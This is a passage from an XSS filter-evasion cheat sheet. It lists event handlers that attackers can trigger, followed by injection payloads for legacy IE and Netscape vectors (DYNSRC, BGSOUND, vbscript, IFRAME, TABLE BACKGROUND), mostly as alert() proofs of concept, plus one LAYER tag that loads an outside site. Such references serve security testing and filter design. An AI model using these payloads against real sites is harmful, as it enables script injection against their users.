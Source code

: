 ```
data source)
73. onScroll() (user would need to scroll, or attacker could use the
scrollBy() function)
74. onSelect() (user needs to select some text - attacker could auto
initialize with something like:
window.document.execCommand("SelectAll");)
75. onSelectionChange() (user needs to select some text - attacker
could auto initialize with something like:
window.document.execCommand("SelectAll");)
76. onSelectStart() (user needs to select some text - attacker could
auto initialize with something like:
window.document.execCommand("SelectAll");)
77. onStart() (fires at the beginning of each marquee loop)
78. onStop() (user would need to press the stop button or leave the
webpage)
79. onSubmit() (requires attacker or user submits a form)
80. onUnload() (as the user clicks any link or presses the back button
or attacker forces a click)

```
IMG Dynsrc (works in IE):
```
<IMG DYNSRC="javascript:alert('XSS')">
```
Input Dynsrc and Src (This XSS works in IE but remember to use TYPE="image"):
```
<INPUT TYPE="image" DYNSRC="javascript:alert('XSS');">
```
BGSOUND (works in IE):
```
<BGSOUND SRC="javascript:alert('XSS');">
```
& JS includes (works in Netscape 4.x):
```
<br size="&{alert('XSS')}">
```
Layer (also only works in Netscape 4.x):
```
<LAYER SRC="http://k2decompiler.com"></layer>
```
Style sheet:
```
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
```
VBscript in an image:
```
<IMG SRC='vbscript:msgbox("XSS")'>
```

Mocha (older versions of Netscape only):
```
<IMG SRC="mocha:[code]">
```
Livescript (older versions of Netscape only):
```
<IMG SRC="livescript:[code]">
```
Iframe (if iframes are allowed there are a lot of other XSS problems as well):
```
<IFRAME SRC=javascript:alert('XSS')></IFRAME>
```
Frame (frames have the same sorts of XSS problems as iframes):
```
<FRAMESET><FRAME SRC=javascript:alert('XSS')></FRAME></FRAMESET>
```
Tables (who would have thought tables were XSS targets... except me, of course):
```
<TABLE BACKGROUND="javascript:alert('XSS')">
```
